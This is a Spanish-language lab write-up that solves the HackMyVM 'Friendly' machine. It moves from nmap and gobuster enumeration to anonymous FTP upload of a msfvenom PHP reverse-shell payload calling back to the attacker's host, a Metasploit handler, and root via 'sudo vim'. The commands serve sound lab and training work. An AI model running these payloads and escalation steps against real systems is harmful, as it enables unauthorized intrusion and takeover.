 ```yaml
---
tags:
  - Cybersecurity
  - Labs
  - HackMyVM
  - Easy
  - Linux
  - HTTP
  - FuzzingWeb
  - FTP
  - ReverseShell
  - PrivilegeEscalation
  - Sudo
---
```

- [[#Enumeración|Enumeración]]
	- [[#Enumeración#Ping|Ping]]
	- [[#Enumeración#Nmap|Nmap]]
	- [[#Enumeración#HTTP|HTTP]]
		- [[#HTTP#Fuzzing Web|Fuzzing Web]]
- [[#Explotación|Explotación]]
	- [[#Explotación#FTP|FTP]]
	- [[#Explotación#Reverse Shell|Reverse Shell]]
	- [[#Explotación#Escalada de Privilegios|Escalada de Privilegios]]
		- [[#Escalada de Privilegios#Sudo|Sudo]]

---
# Resolviendo la máquina Friendly

>En esta publicación, comparto cómo resolví la máquina **Friendly** de [HackMyVM](https://hackmyvm.eu/machines/machine.php?vm=Friendly).

---
## Enumeración
### Ping

Ejecutamos un *ping* para comprobar la conectividad y obtener pistas sobre el sistema operativo.

`ping -c 1 192.168.1.45`

![[Pasted image 20250726091445.png]]

*TTL=64* -> **Linux**
### Nmap

`nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 192.168.1.45 -oG allPorts`

![[Pasted image 20250726091519.png]]

`nmap -p21,80 -sCV 192.168.1.45 -oN targeted`

![[Pasted image 20250726091546.png]]
### HTTP

`http://192.168.1.45/`

![[Pasted image 20250726091751.png]]
#### Fuzzing Web

`gobuster dir -u http://192.168.1.45/ -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -t 64`

![[Pasted image 20250726091925.png]]

---
## Explotación
### FTP

Se ha visto en la enumeración, que en el puerto 21, se encuentra habilitado el servicio **FTP** con el inicio de sesión anónimo.

`ftp anonymous@192.168.1.45`

![[Pasted image 20250726092228.png]]

Se crea un *payload malicioso*..

`msfvenom -p php/reverse_php LHOST=192.168.1.127 LPORT=1234 -f raw > pwned.php`

Se sube el archivo generado.

`put pwned.php`

`ls`

![[Pasted image 20250726092445.png]]
### Reverse Shell

Se inicia una escucha en el puerto 1234 para recibir la *reverse shell*.

`vim handler.rc`

```
use multi/handler
set PAYLOAD php/reverse_php
set LHOST 192.168.1.127
set LPORT 1234
run
```

`msfconsole -r handler.rc`

`http://192.168.1.45/pwned.php`

![[Pasted image 20250726092701.png]]

`background`

`sessions -u 1`

`sessions 2`
### Escalada de Privilegios
#### Sudo

`sudo -l`

![[Pasted image 20250726100235.png]]

Se detecta el binario `/usr/bin/vim`, se realiza una búsqueda por [GTFOBins](https://gtfobins.github.io/gtfobins/vim/#sudo). 

![[Pasted image 20250726100416.png]]

`sudo vim -c ':!/bin/sh'`

![[Pasted image 20250726100502.png]]

---